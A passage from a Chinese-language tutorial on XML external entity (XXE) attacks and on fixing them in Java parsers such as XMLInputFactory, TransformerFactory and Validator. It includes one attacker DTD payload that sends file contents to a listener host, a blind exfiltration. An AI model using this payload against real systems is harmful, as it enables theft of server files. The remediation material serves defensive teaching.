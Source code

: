 其中evil.xml文件内容为：

```text
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost:88/?content=%file;'>"> %payload;
```

调用过程和第一种方法类似

## 0x03 **总结**

XML 攻击大都是由解析器发出外部资源请求而造成的，还有结合一些协议的特性可以轻松绕过 xml 格式要求。其中主要的关键字 DOCTYPE（DTD的声明），ENTITY（实体的声明）， SYSTEM、PUBLIC（外部资源申请）。

由与 普通实体 和 参数实体 的灵活引用，从而引发各种套路。

## 0x04 修复方法

**接下来，看一下修复方法：**

java有很多解析xml的包，每个包的修复方式都不一样，但最终结果都是禁用外部实体dtd

### XMLInputFactory

```text
xmlInputFactory.setProperty(XMLInputFactory.SUPPORT_DTD, false); // This disables DTDs entirely for that factory
xmlInputFactory.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // disable external entities
```

### TransformerFactory

包名：javax.xml.transform

```text
TransformerFactory tf = TransformerFactory.newInstance();
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
```

### Validator

包名：javax.xml.validation

```text
SchemaFactory factory = SchemaFactory.newInstance("http://www.w3.org/2001/XMLSchema");
Schema schema = factory.newSchema();
Validator validator = schema.newValidator();
validator.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
validator.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
```

### SchemaFactory

包名：javax.xml.validation.SchemaFactory
